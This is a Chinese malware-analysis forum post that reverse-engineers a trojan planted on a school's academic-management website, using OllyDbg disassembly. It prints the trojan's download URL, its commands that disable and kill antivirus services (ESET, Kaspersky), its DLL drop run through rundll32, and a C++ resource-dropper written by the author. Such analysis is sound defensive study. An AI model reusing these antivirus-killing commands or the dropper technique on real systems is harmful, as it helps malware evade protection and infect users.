










# 对学校教务管理系统主页网马的分析

> 原文：[`www.pediy.com/kssd/pediy12/97554.html`](https://www.pediy.com/kssd/pediy12/97554.html)

 对学校教务管理系统主页网马的分析
第一次发帖，没什么经验，修改了很久。

【文章标题】: 对学校教务管理系统主页网马的分析
【文章作者】: 三毛
【作者邮箱】: chuwei520@hotmail.com
【作者 QQ 号】: 502468501
【软件名称】: 木马程序 Trojan.Win32.AntiAV.bcy
【软件大小】: 43016 字节
【下载地址】: 自己搜索下载
【加壳方式】: UPX 0.89.6 - 1.02 / 1.05 - 2.90 -> Markus & Laszlo
【编写语言】: Microsoft Visual C++ 6.0
【使用工具】: Ollydbg IDA 5.2
【操作平台】: 虚拟机 、windows xp sp2
【作者声明】: 只是感兴趣，没有其他目的。失误之处敬请诸位大侠赐教!
________________________________________

【详细过程】

  病毒名称：木马程序 Trojan.Win32.AntiAV.bcy
  病毒类型： 
  文件 MD5： 46E4E22BC115F78E1C89153A107A7284
  公开范围： 完全公开
  危害等级： 
  文件长度： 43016 字节
  感染系统： 
  开发工具： Microsoft Visual C++ 6.0
  加壳类型： UPX 0.89.6 - 1.02 / 1.05 - 2.90 -> Markus & Laszlo

  某天，听说学校教务管理系统主页上被挂马了，于是就有了这文章。
  
  找出了木马的下载地址：http://s99.uwb4.com/9/eX.exe
  
  下面进入正题：
  （一）准备工作
  （1）、查壳

（2）、脱壳

 ESP 定律脱完壳，程序是 Microsoft Visual C++ 6.0 开发的。

  （二）病毒行为：
  （1）、先查找窗口类为"TTe.er.eabcds.ss"，如果没有找到，继续执行。如果找到，则退出自身进程。
  004021D2    68 6C124000     push    0040126C                         ; ASCII "TTe.er.eabcds.ss"
  004021D7    FF15 94104000   call    dword ptr [<&USER32.FindWindowA>>; USER32.FindWindowA
  004021DD    8985 E8FCFFFF   mov     dword ptr [ebp-318], eax
  004021E3    83BD E8FCFFFF 0>cmp     dword ptr [ebp-318], 0
  004021EA    74 5D           je      short 00402249

  00402249    E8 C2FCFFFF     call    00401F10

  F7 进 call

  00401F10    81EC 00010000   sub     esp, 100
  00401F16    B9 3F000000     mov     ecx, 3F
  00401F1B    33C0            xor     eax, eax
  00401F1D    8D5424 00       lea     edx, dword ptr [esp]
  00401F21    53              push    ebx
  00401F22    55              push    ebp
  00401F23    56              push    esi
  00401F24    57              push    edi
  00401F25    8D7C24 10       lea     edi, dword ptr [esp+10]
  00401F29    F3:AB           rep     stos dword ptr es:[edi]
  00401F2B    66:AB           stos    word ptr es:[edi]
  00401F2D    AA              stos    byte ptr es:[edi]
  00401F2E    83C9 FF         or      ecx, FFFFFFFF
  00401F31    BF B0104000     mov     edi, 004010B0                    ; ASCII "cmd /c sc config "
  00401F36    33C0            xor     eax, eax
  00401F38    F2:AE           repne   scas byte ptr es:[edi]
  00401F3A    F7D1            not     ecx
  00401F3C    2BF9            sub     edi, ecx
  00401F3E    8BC1            mov     eax, ecx
  00401F40    8BF7            mov     esi, edi
  00401F42    8BFA            mov     edi, edx
  00401F44    8D5424 10       lea     edx, dword ptr [esp+10]
  00401F48    C1E9 02         shr     ecx, 2
  00401F4B    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00401F4D    8BC8            mov     ecx, eax
  00401F4F    33C0            xor     eax, eax
  00401F51    83E1 03         and     ecx, 3
  00401F54    50              push    eax
  00401F55    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  00401F57    BF 6C114000     mov     edi, 0040116C                    ; ASCII "ekrn"
  00401F5C    83C9 FF         or      ecx, FFFFFFFF
  00401F5F    F2:AE           repne   scas byte ptr es:[edi]
  00401F61    F7D1            not     ecx
  00401F63    2BF9            sub     edi, ecx
  00401F65    8BF7            mov     esi, edi
  00401F67    8BD9            mov     ebx, ecx
  00401F69    8BFA            mov     edi, edx
  00401F6B    83C9 FF         or      ecx, FFFFFFFF
  00401F6E    F2:AE           repne   scas byte ptr es:[edi]
  00401F70    8BCB            mov     ecx, ebx
  00401F72    4F              dec     edi
  00401F73    C1E9 02         shr     ecx, 2
  00401F76    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00401F78    8BCB            mov     ecx, ebx
  00401F7A    8D5424 14       lea     edx, dword ptr [esp+14]
  00401F7E    83E1 03         and     ecx, 3
  00401F81    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  00401F83    BF C4104000     mov     edi, 004010C4                    ; ASCII " start= disabled"
  00401F88    83C9 FF         or      ecx, FFFFFFFF
  00401F8B    F2:AE           repne   scas byte ptr es:[edi]
  00401F8D    F7D1            not     ecx
  00401F8F    2BF9            sub     edi, ecx
  00401F91    8BF7            mov     esi, edi
  00401F93    8BD9            mov     ebx, ecx
  00401F95    8BFA            mov     edi, edx
  00401F97    83C9 FF         or      ecx, FFFFFFFF
  00401F9A    F2:AE           repne   scas byte ptr es:[edi]
  00401F9C    8BCB            mov     ecx, ebx
  00401F9E    4F              dec     edi
  00401F9F    C1E9 02         shr     ecx, 2
  00401FA2    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00401FA4    8BCB            mov     ecx, ebx
  00401FA6    8B1D 20104000   mov     ebx, dword ptr [<&kernel32.WinEx>; kernel32.WinExec
  00401FAC    83E1 03         and     ecx, 3
  00401FAF    8D4424 14       lea     eax, dword ptr [esp+14]
  00401FB3    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  00401FB5    50              push    eax
  00401FB6    FFD3            call    ebx
  00401FB8    8B2D 38104000   mov     ebp, dword ptr [<&kernel32.Sleep>; kernel32.Sleep
  00401FBE    68 D0070000     push    7D0
  00401FC3    FFD5            call    ebp
  00401FC5    BF D8104000     mov     edi, 004010D8                    ; ASCII "cmd.exe /c taskkill.exe /im "
  00401FCA    83C9 FF         or      ecx, FFFFFFFF
  00401FCD    33C0            xor     eax, eax
  00401FCF    8D5424 10       lea     edx, dword ptr [esp+10]
  00401FD3    F2:AE           repne   scas byte ptr es:[edi]
  00401FD5    F7D1            not     ecx
  00401FD7    2BF9            sub     edi, ecx
  00401FD9    8BF7            mov     esi, edi
  00401FDB    8BC1            mov     eax, ecx
  00401FDD    8BFA            mov     edi, edx
  00401FDF    C1E9 02         shr     ecx, 2
  00401FE2    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00401FE4    8BC8            mov     ecx, eax
  00401FE6    33C0            xor     eax, eax
  00401FE8    83E1 03         and     ecx, 3
  00401FEB    8D5424 10       lea     edx, dword ptr [esp+10]
  00401FEF    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  00401FF1    BF 60114000     mov     edi, 00401160                    ; ASCII "ekrn.exe"
  00401FF6    83C9 FF         or      ecx, FFFFFFFF
  00401FF9    F2:AE           repne   scas byte ptr es:[edi]
  00401FFB    F7D1            not     ecx
  00401FFD    2BF9            sub     edi, ecx
  00401FFF    50              push    eax
  00402000    8BF7            mov     esi, edi
  00402002    8BFA            mov     edi, edx
  00402004    8BD1            mov     edx, ecx
  00402006    83C9 FF         or      ecx, FFFFFFFF
  00402009    F2:AE           repne   scas byte ptr es:[edi]
  0040200B    8BCA            mov     ecx, edx
  0040200D    4F              dec     edi
  0040200E    C1E9 02         shr     ecx, 2
  00402011    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00402013    8BCA            mov     ecx, edx
  00402015    8D5424 14       lea     edx, dword ptr [esp+14]
  00402019    83E1 03         and     ecx, 3
  0040201C    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  0040201E    BF 5C114000     mov     edi, 0040115C                    ; ASCII " /f"
  00402023    83C9 FF         or      ecx, FFFFFFFF
  00402026    F2:AE           repne   scas byte ptr es:[edi]
  00402028    F7D1            not     ecx
  0040202A    2BF9            sub     edi, ecx
  0040202C    8BF7            mov     esi, edi
  0040202E    8BFA            mov     edi, edx
  00402030    8BD1            mov     edx, ecx
  00402032    83C9 FF         or      ecx, FFFFFFFF
  00402035    F2:AE           repne   scas byte ptr es:[edi]
  00402037    8BCA            mov     ecx, edx
  00402039    4F              dec     edi
  0040203A    C1E9 02         shr     ecx, 2
  0040203D    F3:A5           rep     movs dword ptr es:[edi], dword p>
  0040203F    8BCA            mov     ecx, edx
  00402041    8D4424 14       lea     eax, dword ptr [esp+14]
  00402045    83E1 03         and     ecx, 3
  00402048    50              push    eax
  00402049    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  0040204B    FFD3            call    ebx
  0040204D    68 B80B0000     push    0BB8
  00402052    FFD5            call    ebp
  00402054    BF D8104000     mov     edi, 004010D8                    ; ASCII "cmd.exe /c taskkill.exe /im "
  00402059    83C9 FF         or      ecx, FFFFFFFF
  0040205C    33C0            xor     eax, eax
  0040205E    8D5424 10       lea     edx, dword ptr [esp+10]
  00402062    F2:AE           repne   scas byte ptr es:[edi]
  00402064    F7D1            not     ecx
  00402066    2BF9            sub     edi, ecx
  00402068    8BC1            mov     eax, ecx
  0040206A    8BF7            mov     esi, edi
  0040206C    8BFA            mov     edi, edx
  0040206E    8D5424 10       lea     edx, dword ptr [esp+10]
  00402072    C1E9 02         shr     ecx, 2
  00402075    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00402077    8BC8            mov     ecx, eax
  00402079    33C0            xor     eax, eax
  0040207B    83E1 03         and     ecx, 3
  0040207E    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  00402080    BF 50114000     mov     edi, 00401150                    ; ASCII "egui.exe"
  00402085    83C9 FF         or      ecx, FFFFFFFF
  00402088    F2:AE           repne   scas byte ptr es:[edi]
  0040208A    F7D1            not     ecx
  0040208C    2BF9            sub     edi, ecx
  0040208E    8BF7            mov     esi, edi
  00402090    8BFA            mov     edi, edx
  00402092    8BD1            mov     edx, ecx
  00402094    83C9 FF         or      ecx, FFFFFFFF
  00402097    F2:AE           repne   scas byte ptr es:[edi]
  00402099    8BCA            mov     ecx, edx
  0040209B    4F              dec     edi
  0040209C    C1E9 02         shr     ecx, 2
  0040209F    F3:A5           rep     movs dword ptr es:[edi], dword p>
  004020A1    8BCA            mov     ecx, edx
  004020A3    83E1 03         and     ecx, 3
  004020A6    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  004020A8    BF 5C114000     mov     edi, 0040115C                    ; ASCII " /f"
  004020AD    83C9 FF         or      ecx, FFFFFFFF
  004020B0    F2:AE           repne   scas byte ptr es:[edi]
  004020B2    F7D1            not     ecx
  004020B4    2BF9            sub     edi, ecx
  004020B6    8D5424 10       lea     edx, dword ptr [esp+10]
  004020BA    8BF7            mov     esi, edi
  004020BC    8BFA            mov     edi, edx
  004020BE    8BD1            mov     edx, ecx
  004020C0    83C9 FF         or      ecx, FFFFFFFF
  004020C3    F2:AE           repne   scas byte ptr es:[edi]
  004020C5    8BCA            mov     ecx, edx
  004020C7    4F              dec     edi
  004020C8    C1E9 02         shr     ecx, 2
  004020CB    F3:A5           rep     movs dword ptr es:[edi], dword p>
  004020CD    8BCA            mov     ecx, edx
  004020CF    50              push    eax
  004020D0    83E1 03         and     ecx, 3
  004020D3    8D4424 14       lea     eax, dword ptr [esp+14]
  004020D7    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  004020D9    50              push    eax
  004020DA    FFD3            call    ebx
  004020DC    68 B80B0000     push    0BB8
  004020E1    FFD5            call    ebp
  004020E3    5F              pop     edi
  004020E4    5E              pop     esi
  004020E5    5D              pop     ebp
  004020E6    5B              pop     ebx
  004020E7    81C4 00010000   add     esp, 100
  004020ED    C3              retn
  （2）、病毒尝试通过 WinExec 执行 dos 命令终止反病毒软件 ekrn 、egui、avp 的相关服务，强行终止相关进程，并删除相关服务
  一般常见杀毒软件的自身保护能力很强，在 ring3 下是很难停止服务，杀掉进程的。其实，假如宿主机之前已经中过类似的毒，那么此时可以方便做到以上。
   "cmd /c sc config ekrn start= disabled"
   "cmd.exe /c taskkill.exe /im "

   "cmd /c sc config eguistart= disabled"
   "cmd.exe /c taskkill.exe /im ")

   "cmd /c sc config avp start= disabled"
   "cmd.exe /c taskkill.exe /im "

  00402259    C685 F0FDFFFF 2>mov     byte ptr [ebp-210], 20
  00402260    C685 F1FDFFFF 7>mov     byte ptr [ebp-20F], 74
  00402267    C685 F2FDFFFF 6>mov     byte ptr [ebp-20E], 65
  0040226E    C685 F3FDFFFF 7>mov     byte ptr [ebp-20D], 73
  00402275    C685 F4FDFFFF 7>mov     byte ptr [ebp-20C], 74
  0040227C    C685 F5FDFFFF 6>mov     byte ptr [ebp-20B], 61
  00402283    C685 F6FDFFFF 6>mov     byte ptr [ebp-20A], 6C
  0040228A    C685 F7FDFFFF 6>mov     byte ptr [ebp-209], 6C
  00402291    C685 F8FDFFFF 0>mov     byte ptr [ebp-208], 0

  0012FDB0  20 74 65 73 74 61 6C 6C 00 E7 1D E1 00 00 00 00   testall.??...
  0012FDC0  38 00 00 00 23 00 00 00 23 00 00 00 38 07 93 7C  8...#...#...8
  0012FDD0  FF FF FF FF 00 E0 FD 7F AB 06 93 7C EB 06 93 7C  .帻??
  0012FDE0  F0 20 40 00 00 00 00 00 67 08 81 7C 1B 00 00 00  ?@.....g...

  00402298    C685 D8FAFFFF 5>mov     byte ptr [ebp-528], 5C
  0040229F    C685 D9FAFFFF 6>mov     byte ptr [ebp-527], 6B
  004022A6    C685 DAFAFFFF 6>mov     byte ptr [ebp-526], 69
  004022AD    C685 DBFAFFFF 6>mov     byte ptr [ebp-525], 6C
  004022B4    C685 DCFAFFFF 6>mov     byte ptr [ebp-524], 6C
  004022BB    C685 DDFAFFFF 6>mov     byte ptr [ebp-523], 64
  004022C2    C685 DEFAFFFF 6>mov     byte ptr [ebp-522], 6C
  004022C9    C685 DFFAFFFF 6>mov     byte ptr [ebp-521], 6C
  004022D0    C685 E0FAFFFF 2>mov     byte ptr [ebp-520], 2E
  004022D7    C685 E1FAFFFF 6>mov     byte ptr [ebp-51F], 64
  004022DE    C685 E2FAFFFF 6>mov     byte ptr [ebp-51E], 6C
  004022E5    C685 E3FAFFFF 6>mov     byte ptr [ebp-51D], 6C
  004022EC    C685 E4FAFFFF 0>mov     byte ptr [ebp-51C], 0

  0012FA98  5C 6B 69 6C 6C 64 6C 6C 2E 64 6C 6C 00 00 00 00  \killdll.dll....

  004022F3    C685 B0F9FFFF 5>mov     byte ptr [ebp-650], 5C
  004022FA    C685 B1F9FFFF 7>mov     byte ptr [ebp-64F], 72
  00402301    C685 B2F9FFFF 7>mov     byte ptr [ebp-64E], 75
  00402308    C685 B3F9FFFF 6>mov     byte ptr [ebp-64D], 6E
  0040230F    C685 B4F9FFFF 6>mov     byte ptr [ebp-64C], 64
  00402316    C685 B5F9FFFF 6>mov     byte ptr [ebp-64B], 6C
  0040231D    C685 B6F9FFFF 6>mov     byte ptr [ebp-64A], 6C
  00402324    C685 B7F9FFFF 3>mov     byte ptr [ebp-649], 33
  0040232B    C685 B8F9FFFF 3>mov     byte ptr [ebp-648], 32
  00402332    C685 B9F9FFFF 2>mov     byte ptr [ebp-647], 2E
  00402339    C685 BAF9FFFF 6>mov     byte ptr [ebp-646], 65
  00402340    C685 BBF9FFFF 7>mov     byte ptr [ebp-645], 78
  00402347    C685 BCF9FFFF 6>mov     byte ptr [ebp-644], 65
  0040234E    C685 BDF9FFFF 2>mov     byte ptr [ebp-643], 20
  00402355    C685 BEF9FFFF 0>mov     byte ptr [ebp-642], 0

  0012F970  5C 72 75 6E 64 6C 6C 33 32 2E 65 78 65 20 00 77  \rundll32.exe .w

  00402377    FF15 60104000   call    dword ptr [<&kernel32.GetSystemD>; kernel32.GetSystemDirectoryA
  0040237D    8D85 A8F7FFFF   lea     eax, dword ptr [ebp-858]
  00402383    50              push    eax
  00402384    8D8D ECFCFFFF   lea     ecx, dword ptr [ebp-314]
  0040238A    51              push    ecx
  0040238B    FF15 44104000   call    dword ptr [<&kernel32.lstrcpy>]  ; kernel32.lstrcpyA

  获得系统目录 C:\WINDOWS\system32，方便木马释放资源。

  0012FCAC  43 3A 5C 57 49 4E 44 4F 57 53 5C 73 79 73 74 65  C:\WINDOWS\syste
  0012FCBC  6D 33 32 00 00 00 00 00 00 00 00 00 00 00 00 00  m32.............

  0040243D    8D95 D8FAFFFF   lea     edx, dword ptr [ebp-528]
  00402443    52              push    edx
  00402444    8D85 ECFCFFFF   lea     eax, dword ptr [ebp-314]
  0040244A    50              push    eax
  0040244B    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA

  EAX 0012FCAC ASCII "C:\WINDOWS\system32\killdll.dll"

  00402451    68 64124000     push    00401264                         ; ASCII "SERVER"
  00402456    68 81000000     push    81
  0040245B    8D8D ECFCFFFF   lea     ecx, dword ptr [ebp-314]
  00402461    51              push    ecx
  00402462    E8 A9F0FFFF     call    00401510   //释放资源
  （3）、释放动态链接库%SystemRoot%\system32\killdll.dll
  F7 跟进去
  00401510    83EC 08         sub     esp, 8
  00401513    8B4424 0C       mov     eax, dword ptr [esp+C]
  00401517    6A 00           push    0
  00401519    6A 00           push    0
  0040151B    6A 02           push    2
  0040151D    6A 00           push    0
  0040151F    6A 00           push    0
  00401521    68 00000040     push    40000000
  00401526    50              push    eax
  00401527    FF15 1C104000   call    dword ptr [<&kernel32.CreateFile>; kernel32.CreateFileA
  0040152D    85C0            test    eax, eax
  0040152F    894424 00       mov     dword ptr [esp], eax
  00401533    0F84 89000000   je      004015C2
  00401539    8B4C24 14       mov     ecx, dword ptr [esp+14]
  0040153D    8B5424 10       mov     edx, dword ptr [esp+10]
  00401541    53              push    ebx
  00401542    55              push    ebp
  00401543    56              push    esi
  00401544    57              push    edi
  00401545    51              push    ecx
  00401546    52              push    edx
  00401547    6A 00           push    0
  00401549    FF15 18104000   call    dword ptr [<&kernel32.FindResour>; kernel32.FindResourceA
  0040154F    8BF8            mov     edi, eax
  00401551    57              push    edi
  00401552    6A 00           push    0
  00401554    FF15 14104000   call    dword ptr [<&kernel32.LoadResour>; kernel32.LoadResource
  0040155A    50              push    eax
  0040155B    33F6            xor     esi, esi
  0040155D    894424 28       mov     dword ptr [esp+28], eax
  00401561    FF15 10104000   call    dword ptr [<&kernel32.LockResour>; kernel32.SetHandleCount
  00401567    8B2D 0C104000   mov     ebp, dword ptr [<&kernel32.Sizeo>; kernel32.SizeofResource
  0040156D    57              push    edi
  0040156E    56              push    esi
  0040156F    8BD8            mov     ebx, eax
  00401571    C64424 24 00    mov     byte ptr [esp+24], 0
  00401576    FFD5            call    ebp
  00401578    85C0            test    eax, eax
  0040157A    74 2C           je      short 004015A8
  0040157C    8A0433          mov     al, byte ptr [ebx+esi]
  0040157F    8D4C24 14       lea     ecx, dword ptr [esp+14]
  00401583    04 02           add     al, 2
  00401585    6A 00           push    0
  00401587    884424 20       mov     byte ptr [esp+20], al
  0040158B    8B4424 14       mov     eax, dword ptr [esp+14]
  0040158F    51              push    ecx
  00401590    8D5424 24       lea     edx, dword ptr [esp+24]
  00401594    6A 01           push    1
  00401596    52              push    edx
  00401597    50              push    eax
  00401598    FF15 08104000   call    dword ptr [<&kernel32.WriteFile>>; kernel32.WriteFile
  0040159E    57              push    edi
  0040159F    6A 00           push    0
  004015A1    46              inc     esi
  004015A2    FFD5            call    ebp
  004015A4    3BF0            cmp     esi, eax
  004015A6  ^ 72 D4           jb      short 0040157C
  004015A8    8B4C24 24       mov     ecx, dword ptr [esp+24]
  004015AC    51              push    ecx
  004015AD    FF15 04104000   call    dword ptr [<&kernel32.FreeResour>; kernel32.FreeResource
  004015B3    8B5424 10       mov     edx, dword ptr [esp+10]
  004015B7    52              push    edx
  004015B8    FF15 00104000   call    dword ptr [<&kernel32.CloseHandl>; kernel32.CloseHandle
  004015BE    5F              pop     edi
  004015BF    5E              pop     esi
  004015C0    5D              pop     ebp
  004015C1    5B              pop     ebx
  004015C2    83C4 08         add     esp, 8
  004015C5    C2 0C00         retn    0C

通过对该释放资源函数的分析，我写了个类似的释放资源程序。

// DynamicMakeRc.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"
#include "resource.h"
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[])
{
  HRSRC hRes = FindResource(NULL,MAKEINTRESOURCE(ID_DRIVER_SYS), MAKEINTRESOURCE(RC_SYS));
  if ( hRes == NULL)
  {
    printf("FindResource error!\n");
  }

  HGLOBAL hGRes = LoadResource(NULL, hRes);
  if (hGRes == NULL)
  {
    printf("LoadResource error!\n");
  }
  void *pRes = LockResource(hGRes);
  DWORD dwSize = SizeofResource(NULL, hRes);
  char FileName[256];
  GetCurrentDirectory(sizeof(FileName), FileName);
  strcat(FileName, "\\Driver.sys");
  HANDLE hFile = CreateFile(FileName, GENERIC_WRITE, 0, 0, CREATE_ALWAYS,
    FILE_ATTRIBUTE_NORMAL, 0);
  if ( hFile == INVALID_HANDLE_VALUE)
  {
    printf("CreateFile error!\n");
  }

  DWORD dwWrite;
  if (!WriteFile(hFile, pRes, dwSize, &dwWrite, 0))
  {
    printf("WriteFile error!\n");
  }
  CloseHandle(hFile);
  GlobalFree(hGRes);
  return 0;
}

  00402467    8D95 A8F7FFFF   lea     edx, dword ptr [ebp-858]
  0040246D    52              push    edx
  0040246E    8D85 ECFCFFFF   lea     eax, dword ptr [ebp-314]
  00402474    50              push    eax
  00402475    FF15 44104000   call    dword ptr [<&kernel32.lstrcpy>]  ; kernel32.lstrcpyA
  0040247B    8D8D D8FAFFFF   lea     ecx, dword ptr [ebp-528]
  00402481    51              push    ecx
  00402482    8D95 ECFCFFFF   lea     edx, dword ptr [ebp-314]
  00402488    52              push    edx
  00402489    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  0040248F    8D85 B0F9FFFF   lea     eax, dword ptr [ebp-650]
  00402495    50              push    eax
  00402496    8D8D A8F7FFFF   lea     ecx, dword ptr [ebp-858]
  0040249C    51              push    ecx
  0040249D    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  004024A3    8D95 ECFCFFFF   lea     edx, dword ptr [ebp-314]
  004024A9    52              push    edx
  004024AA    8D85 A8F7FFFF   lea     eax, dword ptr [ebp-858]
  004024B0    50              push    eax
  004024B1    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  004024B7    60              pushad

  00402563    8D8D F0FDFFFF   lea     ecx, dword ptr [ebp-210]
  00402569    51              push    ecx
  0040256A    8D95 A8F7FFFF   lea     edx, dword ptr [ebp-858]
  00402570    52              push    edx
  00402571    FF15 40104000   call    dword ptr [<&kernel32.lstrcat>]  ; kernel32.lstrcatA
  00402577    6A 05           push    5
  00402579    8D85 A8F7FFFF   lea     eax, dword ptr [ebp-858]
  0040257F    50              push    eax

  此时
  eax=0012F768, (ASCII "C:\WINDOWS\system32\rundll32.exe C:\WINDOWS\system32\killdll.dll testall")

  00402580    FF15 20104000   call    dword ptr [<&kernel32.WinExec>]  ; kernel32.WinExec

   Rundll.exe 的作用是以命令行的方式调用 Windows 的动态链接库，其命令格式是：RUNDLL.EXE ，<入口点>，<调用参数>
  这里要注意三点：
  1.Dll 文件名中不能含有空格，比如该文件位于 c:\Program Files\目录，你要把这个路径改成 c:\Progra～1\；
  2.Dll 文件名与 Dll 入口点间的逗号不能少，否则程序将出错并且不会给出任何信息！
  3.这是最重要的一点：Rundll 不能用来调用含返回值参数的 Dll，例如 Win32API 中的 GetUserName(),GetTextFace()等。
  比如：
         命令行: rundll32.exe shell32.dll,Control_RunDLL appwiz.cpl,,1 
  　　   功能: 显示 “控制面板－添加/删除程序－安装/卸载” 面板。 

  WinExec("C:\WINDOWS\system32\rundll32.exe C:\WINDOWS\system32\killdll.dll testall",  SW_SHOW);

  （4）创建进程，通过%SystemRoot%\system32\rundll32.exe %SystemRoot%\system32\killdll.dll testall 载入动态链接库。 
   
      从上面图可以看出，killdll.dll 导出函数名为 testall，其 RVA 值为 0x00006B90。
      一般来说，dll 的优先装载地址为 0x10000000。那么可以找到 testall 的入口地址为基址(0x10000000)+RVA(0x00006B90) = 0x10006B90。接下来用 od 载入，快捷键”CTRL+G”，在出现的对话框的编辑框里面输入 10006B90，然后回车。

  10006B90 >    55            db      55                               ;  CHAR 'U'
  10006B91      8B            db      8B
  10006B92      EC            db      EC
  10006B93      81            db      81
  10006B94      EC            db      EC
  10006B95      04            db      04
  10006B96      02            db      02
  10006B97      00            db      00
  10006B98      00            db      00
  10006B99      53            db      53                               ;  CHAR 'S'
  10006B9A      56            db      56                               ;  CHAR 'V'
  10006B9B      57            db      57                               ;  CHAR 'W'
  10006B9C      60            db      60                               ;  CHAR '`'
  10006B9D      8B            db      8B
  10006B9E      45            db      45                               ;  CHAR 'E'

   我们看到了一段乱码，这是因为 od 将这段代码当成数据了，没有进行反汇编识别。用鼠标右键菜单：分析->从模块删除分析就可以了，删除分析后代码如下：

  10006B90 > $  55            push    ebp
  10006B91   .  8BEC          mov     ebp, esp
  10006B93   .  81EC 04020000 sub     esp, 204
  10006B99   .  53            push    ebx
  10006B9A   .  56            push    esi
  10006B9B   .  57            push    edi
  10006B9C   .  60            pushad
  10006B9D   .  8B45 08       mov     eax, dword ptr [ebp+8]
  10006BA0   .  A3 88B90010   mov     dword ptr [1000B988], eax
  10006BA5   .  61            popad
  10006BA6   .  60            pushad
  10006BA7   .  0F84 07000000 je      10006BB4
  10006BAD   .  0F85 01000000 jnz     10006BB4

  （5）提升自身进程权限
  10006C14   .  E8 F7F6FFFF   call    10006310                  ;  //提高权限

  10006310   $  55            push    ebp
  10006311   .  8BEC          mov     ebp, esp
  10006313   .  83EC 18       sub     esp, 18
  10006316   .  53            push    ebx
  10006317   .  56            push    esi
  10006318   .  57            push    edi
  10006319   .  8D45 E8       lea     eax, dword ptr [ebp-18]
  1000631C   .  50            push    eax                              ; /phToken
  1000631D   .  6A 28         push    28                               ; |DesiredAccess = TOKEN_QUERY|TOKEN_ADJUST_PRIVILEGES
  1000631F   .  FF15 70100010 call    dword ptr [<&KERNEL32.GetCurrent>; |[GetCurrentProcess
  10006325   .  50            push    eax                              ; |hProcess
